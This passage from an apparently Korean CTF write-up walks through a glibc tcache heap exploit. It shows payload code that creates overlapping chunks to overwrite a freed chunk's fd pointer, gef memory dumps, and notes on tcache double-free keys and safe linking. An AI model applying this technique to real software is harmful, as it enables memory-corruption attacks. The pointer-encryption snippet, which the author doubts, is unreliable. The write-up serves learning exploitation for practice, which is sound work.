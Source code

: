 ``` python
    # free XXXXXXXXX440, XXXXXXXXX470
    del_clipboard(s, 2)
    del_clipboard(s, 1)
```
위와 같이 payload를 작성하고 코드를 실행하고 tcache에서 사이즈 `0x30`, `0x100` bin을 확인해보면 다음과 같다.
``` bash
─────────────────────────────────── Tcachebins for thread 1 ───────────────────────────────────
Tcachebins[idx=1, size=0x30, count=2] ←  Chunk(addr=0x555555559440, size=0x30, flags=PREV_INUSE | IS_MMAPPED | NON_MAIN_ARENA)
                                      ←  Chunk(addr=0x555555559470, size=0x30, flags=PREV_INUSE | IS_MMAPPED | NON_MAIN_ARENA)
Tcachebins[idx=14, size=0x100, count=1] ←  Chunk(addr=0x555555559400, size=0x100, flags=PREV_INUSE | IS_MMAPPED | NON_MAIN_ARENA)
```
이렇게 `0x555555559400` 영역이 `0x555555559440`, `0x555555559470` 영역과 겹치게 되기 때문에 `0xf0`짜리 chunk를 요청하면 `0x555555559440`의 `fd`를 overwrite할 수 있다.

### Safe linking bypass
그런데 이 때 `0x555555559440`과 `0x555555559470`의 `fd`를 확인해보면 단순히 다음 chunk의 주소를 저장하지 않는데, 이는 tcache의 safe linking 때문이다.
``` bash
gef➤  x/6gx 0x555555559440 - 0x10
0x555555559430: 0x0000000000000000      0x0000000000000031
0x555555559440: 0x000055500000c129      0x62cde40f9bbc5877
0x555555559450: 0x4646464646464646      0x4646464646464646
gef➤  x/6gx 0x555555559470 - 0x10
0x555555559460: 0x0000000000000000      0x0000000000000031
0x555555559470: 0x0000000555555559      0x62cde40f9bbc5877
0x555555559480: 0x4747474747474747      0x4747474747474747
```
공부한김에 간략하게 정리하자면 glibc 2.32버전부터 `free`된 chunk는 다음과 같은 구조를 가지게 된다.
``` c
struct tcache_entry {
    struct tcache_entry *next;
    /* This field exists to detect double frees.  */
    struct tcache_perthread_struct *key;
};
```
위 메모리에서 `0x62cde40f9bbc5877`로 출력된 것이 `key`인데, 다음과 같은 로직을 통해 double free를 방지한다.

1. `free(ptr)`을 했을 때,
2. `ptr->key`에 제대로 된 `key`값이 있는지 검증
  - 없다면 `abort`
3. 제대로 된 `key` 값이 있다면, `ptr`의 `size`에 맞는 tcache bin을 순회
  - `ptr`이 bin에 있다면 `abort`

문제는 `next`인데, glibc 버전에 따라 다르겠지만 2.35의 경우 포인터 마스킹 또는 포인터 암호화 기법이 적용되어서 다음 연산을 하고 저장한다.
``` c
// Encryption
entry->next = (tcache_entry *) ((uintptr_t) next ^ (uintptr_t) tcache);

// Decryption
tcache_entry *next = (tcache_entry *) ((uintptr_t) e->next ^ (uintptr_t) tcache);
```
여기에서 `tcache` 값은 `tcache_perthread_struct`의 주소라고 하는데... 실제 메모리와 다른 것 같아서 2.35 glibc 소스코드를 elixir에서 찾아보았는데 뭔가 안맞는 것 같아 확인이 필요하다.
